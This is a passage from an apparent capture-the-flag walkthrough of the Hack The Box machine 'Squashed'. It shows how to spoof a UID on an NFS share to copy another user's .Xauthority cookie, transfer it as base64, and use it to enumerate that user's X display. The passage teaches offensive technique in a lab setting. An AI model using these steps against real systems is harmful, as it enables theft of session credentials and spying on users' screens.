 > X is a portable network-transparent window system for managing a windows GUI. When it is paired with a display manager, it servers as a full-fledged GUI that can be used to run programs which might not run headlessly. 

When listing out Ross's home directory from the NFS share, there was an .Xauthority file. To be able to access that share, let's change the uid of the rosstemp user to be 1001 or create another rosstemp2 user with that uid. 

```bash
$useradd rosstemp2 -u 1001 -m -s /bin/bash
$ls -la . | grep .Xauthority 
-rw-------  1 rosstemp2 scanner   57 Jan 13 13:46 .Xauthority
$cat .Xauthority | base64
AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABDDlx2uTRvnlLzHZpCmJNi6
```

With the .Xauthority file's contents dumped as base64 (because the .Xauthority file is a binary data file and not ASCII), switch back to the shell as alex and save that base64 string as .Xauthority in alex's home directory. 

```bash
echo "AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABDDlx2uTRvnlLzHZpCmJNi6" | base64 -d > /home/alex/.Xauthority
```

With the .Xauthority file, prefix the commands with `XAUTHORITY=/home/alex/.Xauthority`, we can enumerate the X session. 

```bash
alex@squashed:/home/alex$ XAUTHORITY=/home/alex/.Xauthority xdpyinfo -display :0                                                                                                                                            [2760/3834]
name of display:    :0                                                                                                                                                                                                                 
version number:    11.0                                                                                                                                                                                                                
vendor string:    The X.Org Foundation                                                                                                                                                                                                 
vendor release number:    12013000                                                                                                                                                                                                     
X.Org version: 1.20.13                                                                                                                                                                                                                 
maximum request size:  16777212 bytes                                                                                                                                                                                                  
motion buffer size:  256                                                                                                                                                                                                               
bitmap unit, bit order, padding:    32, LSBFirst, 32                                                                                                                                                                                   
image byte order:    LSBFirst                                                                                                                                                                                                          
number of supported pixmap formats:    7                                                                                                                                                                                               
supported pixmap formats:                                                                                                                                                                                                              
```

[^htb-link]: <https://www.hackthebox.com/machines/squashed>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>